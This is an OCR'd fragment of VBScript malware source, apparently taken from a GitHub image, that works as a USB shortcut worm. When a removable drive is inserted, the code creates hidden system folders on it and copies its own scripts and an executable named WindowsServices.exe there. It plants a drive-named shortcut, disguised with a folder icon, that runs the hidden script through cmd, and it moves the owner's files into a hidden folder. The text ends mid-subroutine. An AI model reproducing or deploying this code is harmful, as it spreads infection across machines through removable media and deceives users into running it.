 ```vb
	Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")
	call procheck(colProcess, "helper.vbs")
	
	Set objEvent = colEvents.NextEvent
	
	
	
	If objEvent.TargetInstance.DriveType = 2  Then
		If objEvent.Path_.Class = "__InstanceCreationEvent" Then
			device = objEvent.TargetInstance.DeviceID
			devicename = objEvent.TargetInstance.VolumeName
			DestFolder = device & "\WindowsServices"
			DummyFolder = device & "\" & "_"
			if (not objws.folderexists(DestFolder)) then
				objws.CreateFolder DestFolder	
				Set objDestFolder = objws.GetFolder(DestFolder)
				objDestFolder.Attributes = objDestFolder.Attributes + 39
			end if
			
			Call moveandhide ("\helper.vbs")
			Call moveandhide ("\installer.vbs")
			Call moveandhide ("\movemenoreg.vbs")
			Call moveandhide ("\WindowsServices.exe")
			
			if (not objws.fileexists (device & devicename & ".lnk")) then
				Set link = ws.CreateShortcut(device & "\" & devicename & ".lnk")
				link.IconLocation = "%windir%\system32\SHELL32.dll, 7"
				link.TargetPath = "%COMSPEC%" 
				link.Arguments = "/C .\WindowsServices\movemenoreg.vbs"
				link.windowstyle = 7
				link.Save
			End If
				
				
			if (not objws.folderexists(DummyFolder)) then
				objws.CreateFolder DummyFolder	
				Set objDestFolder = objws.GetFolder(DummyFolder)
				objDestFolder.Attributes = objDestFolder.Attributes + 2 + 4
				End If
			set check = objws.getFolder(device)
			Call checker(check)
			
		End If
	End If
	

	
	
Wend





sub checker (path)
	set home = path.Files
	For Each file in home
		Select Case file.Name
			Case devicename & ".lnk"
				'nothings
			Case Else
				objws.MoveFile path & file.Name, DummyFolder & "\"
```